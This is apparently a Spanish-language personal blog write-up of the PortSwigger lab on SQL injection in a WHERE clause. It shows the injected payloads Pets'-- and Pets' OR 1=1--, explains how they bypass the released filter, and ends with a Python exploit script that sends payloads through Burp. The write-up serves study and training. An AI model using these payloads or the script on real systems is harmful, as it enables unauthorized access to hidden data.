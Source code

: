 ```yaml
---
title: "01 Write-up: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data"
collection: publications
category: portswigger
permalink: /publications/01_SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL en el filtro de categorías de productos. Para resolver el laboratorio, realizamos un ataque de inyección SQL que hace que la aplicación muestre detalles de todos los productos de cualquier categoría, tanto liberados como no liberados.'
date: 2024-11-30
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'SQL injection vulnerability in WHERE clause allowing retrieval of hidden data'
---
```


![lab_logo]({{site.url}}/images/SQLi/sqli-1/logo.png)

Lab-Link: <https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data>  
Dificultad: APPRENTICE  

## Descripción de laboratorio

![lab_description]({{site.url}}/images/SQLi/sqli-1/lab_description.png)

## Query

La consulta utilizada por la aplicación se proporciona en la descripción del laboratorio. Supongo que la cadena de categoría se toma directamente del argumento de la URL

```sql
SELECT * FROM products WHERE category = '<PARAM>' AND released = 1
```

## Pasos

### Encontrar un punto de referencia

Para conocer la referencia de los productos liberados, filtro por `Pets`, que muestra 3 entradas. 

### Ignorar la parte liberada de la consulta

Ahora necesito inyectar algo que haga que se ignore la parte 'AND released = 1', por ejemplo inyectando un comentario que ignore todas las partes restantes de la consulta.

Por ejemplo, inyectando `Pets'--` se obtiene esta consulta:

```sql
SELECT * FROM products WHERE category = 'Pets'--' AND released = 1
```

Observe la comilla simple después del `--`, que es añadida por la aplicación. Esto sería un error de sintaxis, pero debido al comentario se ignora y no tenemos que tratar con él.

#### URL encode

La URL debe estar correctamente codificada. Cuando se utiliza un navegador, esto se hará automáticamente por el navegador, pero no se muestra en la barra de URL. Cuando se utiliza el Burp Repeater, la codificación de la URL debe hacerse manualmente con `Ctrl+U`.

![url encode in burp]({{site.url}}/images/SQLi/sqli-1/url_encode.png)

==> Se muestran 4 entradas, por lo que la parte liberada se comenta correctamente.

### Mostrar todos los productos independientemente de su categoría

Para mostrar todos los productos, independientemente de su categoría o estado de liberación, necesito inyectar una cadena que se evalúe como `TRUE` para cada entrada de la tabla. Por ejemplo, la expresión `1=1`.

```sql
Pets' OR 1=1--
```
El resultado es la consulta

```sql
SELECT * FROM products WHERE category = 'Pets' or 1=1 -- ' AND released = 1
```

Que muestra todas las entradas ya que para cada entrada la condición 1=1 permanece verdadera. El laboratorio se actualiza a

![Result]({{site.url}}/images/SQLi/sqli-1/result.png)

```python
import requests
import sys
import urllib3

# Desactiva advertencias de verificación SSL.
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Configuración de proxy para herramientas como Burp Suite.
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'https://127.0.0.1:8080'}

def exploit_sqli(url, payload):
    """
    Prueba una inyección SQL en el parámetro `category` de un endpoint específico.
    """
    uri = '/filter?category='
    r = requests.get(url + uri + payload, verify=False, proxies=proxies)
    # Comprobamos si la respuesta contiene el indicador de éxito "Cat Grib".
    if "Cat Grib" in r.text:
        return True
    else:
        return False

if __name__ == "__main__":
    try:
        # Extrae la URL y el payload de los argumentos de línea de comandos.
        url = sys.argv[1].strip()
        payload = sys.argv[2].strip()
    except IndexError:
        # Muestra el formato de uso si faltan argumentos.
        print("[-] Uso: %s <url> <payload>" % sys.argv[0])
        print('[-] Ejemplo: %s www.example.com "1=1"' % sys.argv[0])
        sys.exit(-1)

    # Llama a la función para intentar la inyección SQL.
    if exploit_sqli(url, payload):
        print("[+] ¡Inyección SQL exitosa!")
    else:
        print("[-] Inyección SQL no exitosa.")

```
